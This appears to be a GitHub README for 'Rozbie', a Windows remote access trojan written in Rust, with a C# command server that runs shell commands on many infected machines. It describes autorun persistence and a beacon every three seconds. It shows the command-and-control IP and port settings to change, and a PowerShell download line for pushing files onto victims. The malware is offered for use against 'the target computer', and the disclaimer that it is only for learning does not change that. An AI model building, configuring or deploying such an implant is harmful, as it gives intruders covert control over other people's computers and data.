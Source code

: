 # Rozbie

Version: 0.1.0

This is a simple and very standard malware code that provide an access to the infected host.
The Rozbie works only on Windows OS.

## Project

The presented solution consists of two project:

1. Rozbie malware written in Rust. It is a program that must be run in the target system to give an intruder an access to the system's command line console.
2. Rozbie Farm is a server in which you can execute commands to run on infected with Rozbie computers. It can handle multiple instances of Rozbie.

![Rozbie Farm](https://github.com/rozensoftware/rozbie/blob/master/RozbieFarm.jpg)

## Installation

It is up to you how you install Rozbie on the target computer.
On successful run the Rozbie will add itself to the Windows current user autorun. It should run after the user logged into system.
When it is there it will try to connect to The Rozbie Farm application once per 3 seconds.
You should be able to type DOS commands in the Rozbie Farm appliaction to be executed on the infected computer.

You must change the *IP* address and eventually the port to yours in the main.rs:

```rust
const SERVER_IP: &'static str = "192.168.0.22";
const SERVER_PORT: &'static str = "1973";
```

The same must be changed on the C# side in the Server.cs file:

```csharp
private static readonly int SERVER_PORT = 1973;
private static readonly string SERVER_IP = "192.168.0.22";
```

## Special commands

The Rozbie should execute almost every DOS command on the infected host.
There is a special command that can be executed only by the Rozbie:

1. 'q' - Shutdowns Rozbie.

**Note:** After user logged into the system current directory of the Rozbie should be Windows\System32 which can include thousands of files.
It's better to type first: 'cd ..' to change directory to one level up instead of 'dir'. There is a static buffer which can hold up to 1MB of data only.
You can change it to a bigger value of course. It is something to address in future commits but as long as it is just a small vicious program, some optimizations are missing now.

## FAQ

- How can I upload something to the infected host?

You can do it by executing PowerShell command, e.g.:

```powershell
powershell -c "Invoke-WebRequest -Uri 'https://www.website.com/file.zip' -OutFile 'c:\temp\file.zip'"
```

## Disclaimer

The author of this code is not responsible for the incorrect operation of the presented code and/or for its incorrect use. The code presented in this project is intended to serve only to learn programming.

## License

This project is licensed under MIT

MIT license (LICENSE-MIT or <http://opensource.org/licenses/MIT>)

## Contributing / Feedback

I am always glad to learn from anyone.
If you want to contribute, you are more than welcome to be a part of the project! Try to share you thoughts first! Feel free to open a new issue if you want to discuss new ideas.

Any kind of feedback is welcome!
